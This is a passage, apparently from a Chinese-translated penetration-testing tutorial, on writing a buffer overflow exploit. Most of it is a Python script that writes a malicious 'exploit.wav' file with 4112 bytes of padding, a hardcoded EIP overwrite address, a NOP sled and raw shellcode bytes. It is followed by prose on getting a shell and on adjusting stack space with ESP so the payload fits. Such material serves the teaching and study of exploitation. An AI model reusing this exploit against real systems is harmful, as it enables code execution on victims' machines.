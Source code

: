 ```
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xba\x16\xdf\x1b\x5d\xd9\xf6\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x2d\x31\x56\x13\x83\xc6\x04\x03\x56\x19\x3d\xee\xa1\x4f\x2a"
"\x56\xb2\x76\x53\xa6\xbd\xe8\x9d\x82\xc9\x95\xe1\xbf\xb2\x58"
"\x62\xc1\xa5\x29\xc5\xe1\x38\xc7\x61\xd5\xa0\x16\x98\x27\x15"
"\x81\xc8\x89\x5f\xbc\x11\xc8\xe4\x7e\x64\x3a\xa7\x18\xbe\x08"
"\x5d\x07\x8b\x07\xd1\xe3\x0d\xf1\x88\x60\x11\x58\xde\x39\x36"
"\x5b\x09\xc6\x6a\xc2\x40\xa4\x56\xe8\x33\xcb\x77\x21\x6f\x57"
"\xf3\x01\xbf\x1c\x43\x8a\x34\x52\x58\x3f\xc1\xfa\x68\x61\xb0"
"\xa9\x0e\xf5\x0f\x7f\xa7\x72\x03\x4d\x68\x29\x85\x08\xe4\xb1"
"\xb6\xbc\x9c\x61\x1a\x13\xcc\xc6\xcf\xd0\xa1\x41\x08\xb0\xc4"
"\xbd\xdf\x3e\x90\x12\x86\x87\xf9\x4a\xb9\x21\x63\xcc\xee\xa2"
"\x93\xf8\x78\x54\xac\xad\x44\x0d\x4a\xc6\x4b\xf6\xf5\x45\xc5"
"\xeb\x90\x79\x86\xbc\x02\xc3\x7f\x47\x34\xe5\xd0\xf3\xc6\x5a"
"\x82\xac\x85\x3c\x9d\x92\x12\x3e\x3b")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```

执行时，我们得到以下结果，显示漏洞生成外壳：

![Writing a basic buffer overflow exploit](img/image00402.jpeg)

现在，这个例子很简单，它可能会为系统提供一个本地攻击，但是有一个问题，我们的攻击失败了，因为它耗尽了空间。如前所述，我们必须调整放置 shell 代码的区域。

# 了解堆叠调整

我们向展示了代码执行在攻击过程中失败，因为我们的第二阶段在内存中破坏了第一阶段的代码。因此，我们需要更多的堆栈空间来完成此攻击。我们可以在必要时将代码拆分到内存中，也可以简单地扩展堆栈中的空间。

这是通过告诉系统向 ESP 添加空间来完成的。您可以通过以下两种方式之一来完成：添加负空间或减去正空间。这是因为正如我们前面提到的，堆栈从高地址增长到低地址。

![Understanding stack adjustments](img/image00403.jpeg)
